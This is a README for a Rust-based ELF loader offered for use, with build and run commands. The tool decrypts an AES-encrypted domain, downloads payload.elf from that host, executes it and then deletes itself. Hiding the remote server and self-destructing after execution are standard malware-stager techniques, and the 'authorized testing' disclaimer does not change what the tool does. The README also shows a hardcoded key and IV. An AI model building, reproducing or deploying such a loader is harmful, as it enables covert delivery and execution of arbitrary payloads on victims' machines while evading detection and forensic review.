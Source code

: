 # ELF Loader V2

A Rust-based ELF loader that decrypts an AES-encrypted domain, downloads a payload, and executes it.

## Features

- AES-128-CBC decryption of base64-encoded domains
- HTTP download of ELF payloads
- Automatic execution with proper permissions
- Self-cleanup after execution

## Building

```bash
cargo build --release
```

## Usage

```bash
./target/release/loaderV2 <base64_aes_encrypted_domain>
```

### Example

1. **Encrypt a domain** (using the helper script):
   ```bash
   # First install the required Python library
   pip3 install pycryptodome
   
   # Encrypt your domain
   python3 encrypt_domain.py example.com
   ```

2. **Run the loader**:
   ```bash
   ./target/release/loaderV2 'YOUR_ENCRYPTED_BASE64_STRING'
   ```

## How it works

1. **Decryption**: Uses AES-128-CBC with hardcoded key/IV to decrypt the domain
2. **Download**: Fetches `http://{decrypted_domain}/payload.elf`
3. **Execute**: Makes the ELF executable and runs it
4. **Cleanup**: Removes the downloaded file and self-destructs

## Security Configuration

The AES key and IV are currently hardcoded in `src/main.rs`:

```rust
let key = b"0123456789abcdef"; // 16 bytes AES-128 key
let iv  = b"abcdef9876543210"; // 16 bytes IV
```

**⚠️ Important**: Change these values before production use!

## Dependencies

- `reqwest` - HTTP client
- `aes` - AES encryption
- `cbc` - CBC mode
- `base64` - Base64 encoding/decoding

## Platform Support

- Linux (primary target)
- Unix-like systems with executable permissions support

## License

This tool is for educational and authorized testing purposes only.
